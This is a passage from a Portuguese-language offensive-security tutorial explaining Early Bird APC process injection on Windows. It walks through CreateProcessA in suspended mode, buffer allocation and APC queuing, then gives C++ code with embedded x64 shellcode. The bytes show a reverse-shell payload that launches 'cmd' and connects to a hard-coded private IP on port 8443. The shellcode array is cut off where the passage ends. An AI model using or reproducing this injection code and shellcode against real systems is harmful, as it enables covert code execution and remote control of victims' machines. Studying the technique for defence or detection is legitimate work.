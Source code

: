 Ao iniciarmos um processo com esta *flag*, sua *thread* principal permanece suspensa até que utilizemos a função [ResumeThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread) seja executada.

Outros 2 parâmetros obrigatórios para o funcionamento da função `CreateProcessA` são;

- `[in] lpStartupInfo` um ponteiro para uma estrutura [STARTUPINFOA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa) vazia que receberá informações sobre o estado de inicialização do processo;
- `[out] lpProcessInformation` um ponteiro para uma estrutura [PROCESS_INFORMATION](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information) vazia que receberá informações sobre o processo;

A estrutura `PROCESS_INFORMATION` tem o seguinte formato:

```cpp
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
```

Uma particularidade importante, é que o parâmetro `hThread` será inicializado com o ID da *main thread* quando o programa for inicializado em modo suspenso, ou seja, já teremos a identificação de onde enfileirar o APC.

Então, basicamente o fluxo é:

1. Criar um processo legítimo em estado suspenso;
2. Criar um *buffer* dentro deste processo;
3. Copiar o *payload* para o *buffer*;
4. Enfileirar um APC na *main thread* que aponta para o *buffer*;
5. Resumir o processo.

A implementação no código fica:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x20\xfb\xc0\xa8\x47\x80"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
```